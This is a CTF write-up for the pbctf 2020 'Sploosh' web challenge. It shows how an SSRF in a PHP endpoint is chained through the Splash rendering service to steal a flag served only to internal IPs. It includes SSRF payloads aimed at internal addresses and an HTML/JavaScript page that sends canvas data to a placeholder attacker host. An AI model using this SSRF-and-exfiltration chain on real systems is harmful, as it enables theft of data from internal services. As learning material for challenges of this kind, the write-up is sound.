

## Sploosh - Web challenge - pbctf 2020
## Author: p4w@beerpwn
### Twitter: https://twitter.com/p4w16

## TL;DR
This challenge is about exploiting an __SSRF__ vulnerability along with __Splash__ (javascript rendering service).

## Challenge description


## Solution
Once connected to the challenge, the index page show a link where it is possible to download the source code.
Here it follow the docker configuration file for the challenge:


The application is pretty simple, basically we have 3 file: __index.php__, __flag.php__ and __api.php__.
The __index.php__ page doesn't contain anything important, so I'll only show the __api.php__ and __flag.php__ pages.
<br>

This is the source for __api.php__


and this the source code of __flag.php__


As we can see in __api.php__, it's possible to control the `url` GET parameter and if it is passed, then script will execute `file_get_contents` with the `http` wrapper to the host `splash`.
With a bit of googling it's possible to discover the service behind the scene. The repository of the splash project can be found here
* https://github.com/scrapinghub/splash

As it is possible to observe that to get the flag it's necessary to request the `flag.php` file, but the flag will be printed out only if the remote address that is requesting the resource is __172.16.0.13__ or __172.16.0.14__. At this point and considering what we have I start to thinking that I need some kind of __SSRF__ to retrieve the flag. Trigger the __SSRF__ is pretty easy in this situation, since no check is made on the `url` parameter, we can just pass arbitrary address in it. Problem is that the __SSRF__ is blind, I'm going to show what I mean with some screen.



Here for example I used google.com domain as endpoint, but in the response we don't have all the page contents retrieved from google, instead only the geometry is present. At this point I start to looking more closely to the __Splash__ documentation (https://splash.readthedocs.io/en/stable/api.html).
Also referring to the `api.php` resource, it's possible to notice that the `url` parameter is __urlencoded__ before concatenation, this stop us to directly inject additional parameters on the query itself (`& -> %26`).
By reading the documentation we can notice that the __Splash API__ can be used along with many parameters. The first one that caught my attention was the `lua_source` parameter that can be passed to the `/execute` API endpint to run custom lua script. Searching more information about that I discover this article https://paper.seebug.org/354/ that explain how __Splash__ works. One thing that tell us is that we can't actually run arbitrary lua code since is sand-boxed for security reason.
Before going more in deep on the __Splash API__, let's see how it is possible to full control a request over the splash endpoint by exploiting the `url` parameter. The trick is simple we can just pass a full request to the internal address:
* `url=http://172.16.0.13:8050/render.html%3furl=http://example.com/`

With this payload it is possible to force the the application to make a request to the `render.html` API endpoint that will generate another request to the domain `example.com`. Let's verify that:


Works fine, at this point I knew that I was able to fully control a request to the splash endpoint along with any parameter I want to use. The first idea was to use the `lua_source` parameter to inject some lua script to leak the flag. I tried that solution, unfortunately I fail so I start to read more documentation.
The __Splash__ service have many endpoints that can be used to fetch pages such as `/render.jpeg`.


At this point I start to think for a chain that can be used to retrieve the flag by using this functionality. The basic idea that I had was to embed an `` tag in a page controlled by me and pointing to the `/render.jpeg` endpoint with the `url` parameter `http://172.16.0.14/flag.php`. After that I can leak the contents with some JavaScript code.

This is the code I used to do that:

```
<html>
  <body>
    <script>
      function exfil(){
        var c = document.getElementById("myCanvas");
        var ctx = c.getContext("2d");
        var img = document.getElementById("preview");
        ctx.drawImage(img, 30, 30);
        var i = new Image();
        i.src="http://<yourdomain-here>:9999/exfil?data="+btoa(c.toDataURL());
      }
    </script>
    
    <canvas id="myCanvas" />
  </body>
</html>
```

To make this work, I just play a bit with the `api.php` page and come up with this payload:
```
GET /api.php?url=http://172.16.0.13:8050/render.html%3furl=http://<yourdomain-here>:8000/exploit.php%26allowed_domains=beerpwn.it HTTP/1.1
...
```
basically the first request goes to the `/render.json` endpoint that is used inside the `api.php`, then a request for `/render.html` is generated along with the `url` parameter pointing to my domain where I hosted the page showed before is hosted.
You can look the exploit working during the CTF in the screenshots below.


After that we can just decode the base64 and we get the flag rendered in a jpeg file!


